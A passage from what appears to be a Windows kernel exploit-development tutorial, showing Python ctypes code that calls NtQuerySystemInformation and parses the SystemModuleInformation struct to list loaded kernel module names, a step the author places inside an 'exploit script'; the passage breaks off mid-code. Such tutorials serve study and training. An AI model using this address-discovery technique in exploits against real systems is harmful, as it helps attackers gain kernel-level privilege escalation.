 So what we have now is `system_information` returned to us in the form of a `_SYSTEM_MODULE_INFORMATION` struct. GradiusX convienantly hardcoded a class definition in his script for this struct and I've put it in my final commented script, feel free to use it (I did not, I am very unsmart.)

Somehow, the first 4 bytes of this returned struct is the amount of handles to Images returned, I'm still not understanding 100% how this works. I can't account for these 4 bytes in the documentation. If we call our script we have right now, I get this returned in my terminal: 
```
C:\Users\IEUser\Desktop>python address.py
[*] Calling NtQuerySystemInformation w/SystemModuleInformation class
[*] Success, allocated 52828-byte result buffer.
```

So we now have the length of the returned structure (52828 bytes). If we slice off the first four bytes of this returned struct, which by the way, I treated as a long string in Python, we can actually store those 4 bytes in a buffer and get their decimal value with the following code thanks to GradiusX: 
```python
handle_num = c_ulong()
memmove(addressof(handle_num), create_string_buffer(system_information[:4]), sizeof(handle_num))
print("[*] Result buffer contains {} SystemModuleInformation objects".format(str(handle_num.value)))
```
If we append this to our script and run it, we get the following terminal output:
```
C:\Users\IEUser\Desktop>python address.py
[*] Calling NtQuerySystemInformation w/SystemModuleInformation class
[*] Success, allocated 52828-byte result buffer.
[*] Result buffer contains 186 SystemModuleInformation objects
```

We can do some math now. We returned 186 SystemModuleInformation objects. Each object is 284 bytes according to the documentation. That brings us to 52824 bytes. So there we have it, we have something like: 4 bytes telling us how many objects returned and then 52824 bytes of 284 byte structs. This makes sense to me, I just don't know where we can find those initial 4 bytes, let me know if you know please. 

Moving on, let's just slice those first four bytes off so we can deal with the remaining objects which are all instances of `_SYSTEM_MODULE_INFORMATION` stucts!

We can parse them accordingly! Let's redefine `system_information` without the first 4 bytes: 
```python
system_information = create_string_buffer(system_information[4:])
```

Since we know the offsets, we can just hardcode them and treat `system_information` as a long string. Let's parse the string using our offsets from the documentation and just return every single `ImageName` member of the struct. We can see from the documentation that this member is `256` bytes long and is located at offset `+0x24`. And this struct is `284` bytes long. So we can keep a counter variable that will increment every iteration `284` bytes and we can get a list of the module names with the `ImageName` member. Let's see if this works and then we will know positively that we can parse the struct the way we need to. This can be accomplished with the following loop in our exploit script: 
```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *

kernel32 = windll.kernel32
ntdll = windll.ntdll

def address_find():
    print("[*] Calling NtQuerySystemInformation w/SystemModuleInformation class" )
    system_information = create_string_buffer(0)
    system_information_length = c_ulong(0)
    ntdll.NtQuerySystemInformation(
        0xb,
        system_information,
```